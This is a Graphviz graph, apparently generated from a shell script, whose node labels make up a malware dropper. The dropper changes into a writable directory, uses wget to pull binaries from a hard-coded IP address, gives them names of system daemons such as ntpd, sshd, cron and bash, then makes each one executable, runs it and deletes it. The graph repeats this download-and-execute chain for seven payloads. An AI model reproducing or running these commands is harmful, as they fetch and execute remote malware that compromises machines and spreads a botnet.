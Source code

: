 digraph {
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 10 [label="||,"];
10 [label="wget http://199.180.134.51/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 28 [label="||,"];
28 [label="wget http://199.180.134.51/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 46 [label="||,"];
46 [label="wget http://199.180.134.51/bash "];
46 -> 48 [label=";,"];
48 [label="chmod +x bash "];
48 -> 50 [label=";,"];
50 [label="./bash "];
50 -> 52 [label=";,"];
52 [label="rm -rf bash "];
52 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 64 [label="||,"];
64 [label="wget http://199.180.134.51/tftp "];
64 -> 66 [label=";,"];
66 [label="chmod +x tftp "];
66 -> 68 [label=";,"];
68 [label="./tftp "];
68 -> 70 [label=";,"];
70 [label="rm -rf tftp "];
70 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 82 [label="||,"];
82 [label="wget http://199.180.134.51/wget "];
82 -> 84 [label=";,"];
84 [label="chmod +x wget "];
84 -> 86 [label=";,"];
86 [label="./wget "];
86 -> 88 [label=";,"];
88 [label="rm -rf wget "];
88 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 100 [label="||,"];
100 [label="wget http://199.180.134.51/cron "];
100 -> 102 [label=";,"];
102 [label="chmod +x cron "];
102 -> 104 [label=";,"];
104 [label="./cron "];
104 -> 106 [label=";,"];
106 [label="rm -rf cron "];
106 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 118 [label="||,"];
118 [label="wget http://199.180.134.51/ftp "];
118 -> 120 [label=";,"];
120 [label="chmod +x ftp "];
120 -> 122 [label=";,"];
122 [label="./ftp "];
122 -> 123 [label=";,"];
}
